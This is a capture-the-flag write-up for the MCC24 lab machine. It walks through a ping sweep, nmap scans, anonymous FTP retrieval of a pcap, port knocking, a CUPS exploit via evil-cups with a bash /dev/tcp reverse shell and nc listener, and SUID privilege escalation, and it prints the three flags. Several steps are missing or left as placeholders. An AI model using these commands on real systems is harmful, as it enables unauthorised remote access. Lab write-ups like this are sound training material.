 ### Step 1: Import the .ova file into vmware 
After importing into virtualbox or vmware, we can notice it is a Linux Debian machine with the username of **alexander**. The next task is to get the IP address of this machine from a attack machine, for this case our attack machine used is Parrot OS. 

![MCC24-2024-11-29-15-18-03](./static/MCC24-2024-11-29-15-18-03.png)

### Step 2: Ping sweep to get the IP address of the machine

With this one liner bash script, we get the victim machine IP address. 

```bash
for i in $(seq 254); do ping 172.20.10.$i -c1 -W1 & done | grep from
```

Make sure the IP address that we going to scan is within the subnet which is **172.20.10** 

![Other Linux 5.x kernel 64-bit-2024-11-29-15-30-51](./static/Other Linux 5.x kernel 64-bit-2024-11-29-15-30-51.png)

### Step 3: Use Nmap to scan open ports of the machine

```bash
 nmap -A 172.20.10.6
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-29 16:28 UTC
Nmap scan report for 172.20.10.6
Host is up (0.00058s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 172.20.10.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey:
|   256 00:dd:3e:84:f7:9c:5e:91:86:f4:e3:88:4a:98:8b:bc (ECDSA)
|_  256 91:8e:1f:ca:0d:33:01:96:45:75:30:ca:e7:e4:dc:7a (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.62 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.09 seconds
```

We notice that the machine has 3 ports are open which are FTP (21), SSH (22) and HTTP (80). Moreover, the FTP server of the machine allow anonymous login. 
### Step 4: Use FTP to check files that are expose
```bash
ftp 172.20.10.6
Connected to 172.20.10.6.
220 ///  My Private File Sharing System ///
Name (172.20.10.6:trevorphilips): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0           56420 Nov 27 21:22 net.pcap
226 Directory send OK.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0           56420 Nov 27 21:22 net.pcap
226 Directory send OK.
ftp> get net.pcap
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for net.pcap (56420 bytes).
226 Transfer complete.
56420 bytes received in 0.01 seconds (5.38 Mbytes/s)
ftp> quit
221 Goodbye.
```

From the ftp server, we can notice a pcap file can be access. We can use `ls` and `get` to download the pcap file to analyze it futher.
### Step 5: Analyze PCAP 
Opening the `net.pcap` file, we can first analyze it from the protocol hierarchy and relate with the communication of IP address.

![pcap-analysis](./static/pcap-analysis.png)

From the protocol hierarchy output, we able to investigate futher in tcp transmissions based on the IP address communication.

![pcap-analysis-2](./static/pcap-analysis-2.png)

After futher investigation, we notice port knocking performed by `ip.addr==192.168.248.151 && ip.addr==192.168.248.137`

The wireshark filter to narrow down on port knocking action is this:
```
ip.addr==192.168.248.151 && ip.addr==192.168.248.137 && (tcp.flags.syn == 1 && tcp.flags.ack == 0)
```

![[screenshot.png]]


### Step 9: Port Knocking on PCAP (TCP.SYN.ACK to open port 631)
- in detail on which port is being knocked

### Step 10: Nmap to port 631 and found new service called CUPS
After analyzing the pcap file, we notice the use of port 631, which is for the Internet Printing Protocol (IPP). This protocol is commonly used by CUPS (Common UNIX Printing System) to manage print jobs and printers over a network. 

References: link booktricks

In order to perform nmap scan on the victim machine, we have to perform knocking with knockd
```
knock 172.20.10.6 77 67 2024
```

Later than we can perform nmap scan on port 631

```
nmap -A -sV -p 631 172.20.10.6
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-30 21:34 UTC
Nmap scan report for 172.20.10.6
Host is up (0.00042s latency).

PORT    STATE SERVICE VERSION
631/tcp open  ipp     CUPS 2.4
|_http-title: Home - CUPS 2.4.2
|_http-server-header: CUPS/2.4 IPP/2.1
| http-robots.txt: 1 disallowed entry
|_/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.44 seconds
```

From the scan result, we get to know that CUPS service is running with the version 2.4.2 which uses IPP and able to access with a web interface, as it indicated the HTTP details with `robots.txt`. 

### Step 11: Get reverse shell via evilcups to the victim machine

To gain access to the victim machine, utilize reverse shell from [evilcups.py](https://github.com/IppSec/evil-cups/blob/evilcups.py) which allow the attacker's machine to receive connection from the victim machine

First, step up a listener with nc
```
nc -lvnp 4545
```

Next, execute the reverse shell
```
python3 evil-cups.py 172.20.10.4 172.20.10.6 'bash -c "bash -i >& /dev/tcp/172.20.10.4/4545 0>&1"'
```

![[image.webp]]

Once we enter the victim machine, the first flag is located at `/home/lp`, we can cat the `initial_flag.txt`
**1st Flag:** `MCC24{h3ll0_fr0m_pr1nt1ng_s3rv1c3s`

### Step 12: Use tools suid3num to enumerate 

![[image.png]]
We have tried running linpeas but unfortunately it does not work due to timeout. So, we opt for suid3num enumeration to perform privilege escalation. 

![[image (1).png]]

Now, we have found the second flag.

**2nd Flag:** MCC24{4bus1ng_su1d}

### Step 13: Found last flag with alexander's privilege at home directory 

![[image (1).webp]]

**3rd Flag:** `MCC24{g00d_j0b_3v3ry0n3}`


### Rabbit Hole Faced
